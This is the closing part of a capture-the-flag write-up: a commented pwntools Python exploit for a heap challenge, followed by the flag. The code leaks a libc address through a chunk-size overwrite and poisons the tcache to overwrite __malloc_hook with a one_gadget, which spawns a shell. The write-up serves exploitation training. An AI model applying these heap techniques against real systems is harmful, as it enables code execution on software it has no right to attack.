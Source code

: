 ```python
    for i in range(10):
        free(challenge, i)

    # Now we're going to perform the leak described above. In practice, the main arena address that we leak ends
    # with a null byte, which prevents it from being shown using the `Show` command. We'll fix that by
    # overwriting it with a non-null byte.
    malloc(challenge, 0xf8, pwn.cyclic(0x20))
    malloc(challenge, 0xf8, pwn.cyclic(0xf8) + "\x81") # Change the chunk size from 0x100 to 0x180.
    free(challenge, 0)
    null_byte_overwrite = 0x41
    payload = pwn.cyclic(0x100) + pwn.p8(null_byte_overwrite) # Overwrite the pesky null byte.
    malloc(challenge, 0x178, payload) # Allocate right up to the edge of the main arena address.
    raw_leak_data = show(challenge, 0)
    leaked_address = pwn.u64(raw_leak_data[-6:] + "\x00\x00") - null_byte_overwrite
    pwn.log.info("Leaked libc address: {}".format(hex(leaked_address)))
    #libc_base_address = leaked_address - libc.sym["main_arena"] - 0x60 # my libc has debug symbols
    libc_base_address = leaked_address - 0x1e4c00 # Offset grabbed using GDB.
    pwn.log.info("Libc base address: {}".format(hex(libc_base_address)))

    # We can use the same chunk size expansion technique to gain code execution, but this time we'll be focusing
    # on the tcache bin. Tcache bins are just singly linked lists and they have very few corruption checks.
    # We'll overwrite the "next" pointer in a free tcache chunk using our overflow technique, and then our
    # arbitrary address will be returned after a couple of mallocs.
    malloc(challenge, 0xf8, pwn.cyclic(0x20)) # Chunk A.
    malloc(challenge, 0xf8, pwn.cyclic(0xf8) + "\x81") # Chunk B. Change the chunk size from 0x100 to 0x180.
    free(challenge, 2) # Free chunk A.
    free(challenge, 1) # Free chunk B.
    malloc_hook_address = libc_base_address + libc.sym["__malloc_hook"]
    pwn.log.info("__malloc_hook: {}".format(hex(malloc_hook_address)))
    packed_overwrite_address = pack_address_and_remove_nulls(malloc_hook_address)
    malloc(challenge, 0x178, pwn.cyclic(0x100) + packed_overwrite_address) # Overflow chunk B into chunk A.

    # After a couple of mallocs, the malloc hook address will be returned by malloc.
    one_gadget_address = libc_base_address + 0x106ef8 # actual libc
    #one_gadget_address = libc_base_address + 0x106ef8 # my libc
    malloc(challenge, 0xf8, pwn.cyclic(0x20))
    malloc(challenge, 0xf8, pack_address_and_remove_nulls(one_gadget_address)) # Overwrite the malloc hook.

    # Call malloc to call the overwritten hook.
    challenge.sendlineafter(MENU, "M")
    challenge.sendlineafter("Size:", "123")

    pwn.log.info("You should have a shell now!")
    challenge.interactive()


if __name__ == "__main__":
    main()
```

## Flag
`OOO{4_b4byh34p_h45_nOOO_n4m3}`
